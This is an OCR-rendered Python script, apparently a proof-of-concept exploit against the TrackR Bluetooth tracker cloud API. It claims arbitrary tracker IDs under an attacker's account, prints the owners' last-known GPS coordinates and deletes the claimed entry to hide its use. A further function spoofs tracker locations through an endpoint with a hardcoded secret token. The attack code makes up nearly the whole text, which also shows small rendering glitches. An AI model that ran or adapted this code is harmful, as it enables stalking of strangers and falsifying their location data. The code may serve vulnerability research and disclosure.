 ```
def createDevice(trackerId): # whatever is created, when pushed later conflict error is returned, despite the deletion
    payload = '{"customName":"'+pickAName()+'","type":"Bluetooth","trackerId":"'+trackerId+'","icon":"trackr","timeElapsedSync":'+str(random.randint(100,1000))+'}'
    r = requests.post("https://platform.thetrackr.com/rest/item?usertoken=" + userToken, headers = headers_push, data = payload)
    if r.status_code == 201: print trackerId, "CREATED"
    elif r.status_code == 200: print trackerId, "Attached"
    else: print trackerId, "Create - Unknown Reason", r.status_code

    if r.status_code == 201 or r.status_code == 200: return 200
    else: return r.status_code

def pushDevice(trackerId): # will always return of Not Found if not created before by the user
    payload = '{"customName":"'+pickAName()+'","type":"Bluetooth","trackerId":"'+trackerId+'","icon":"trackr","lost":false,"timeElapsedSync":'+str(random.randint(100,1000))+'}'
    url = "https://platform.thetrackr.com/rest/item/"+trackerId+"?usertoken=" + userToken

    r = requests.put(url, data = payload, headers = headers_push)
    if r.status_code == 404:
        print trackerId, "Not Found"

    rtxt = r.text
    print trackerId, r.status_code, rtxt
    return r.status_code

# Returning all devices along with their coordinates
def lookupDevice(trackerId):
    r = requests.get("https://platform.thetrackr.com/rest/item?usertoken=" + userToken, headers = headers_get)
    data = json.loads(r.text)
    print "Looking for... ",trackerId, r.status_code
    for it in data:
        if it.has_key("lastKnownLocation"):
            if it["lastKnownLocation"].has_key("latitude"):
                print it["lastKnownLocation"]["latitude"], it["lastKnownLocation"]["longitude"]

def popDevice(trackerId):
    r = requests.delete("https://platform.thetrackr.com/rest/item/"+trackerId+"?usertoken="+userToken+"&timeElapsedSync=0", headers = headers_del)
    print "Deleting Tracker", trackerId, r.status_code

def spoofAddress(trackerId): # Vulnerable to Location Spoofing
	print "Spoofing Target Coordinates" # Push Token is not always necessary
	payload = '[{"trackerId":"'+trackerId+'","battery":-1,"lastKnownLocation":{"latitude":14.31,"longitude":22.38,"accuracy":57.10200044036810},"connected":false,"clientTimeDiff":1132}]'
	r = requests.put("https://platform.thetrackr.com/rest/tracker/batch/secure/lzFobKi7iWUd1cRy05KJff4l3KCNESgsAHWDXYIl", headers = headers_get, data = payload)
	print r.text, r.status_code

# Track Users
tracker_id = "0000XXXX-XXXXXX"
print "Finding Tracker... ", tracker_id
if createDevice(tracker_id) == 200:
   lookupDevice(tracker_id)
    popDevice(tracker_id)**
```
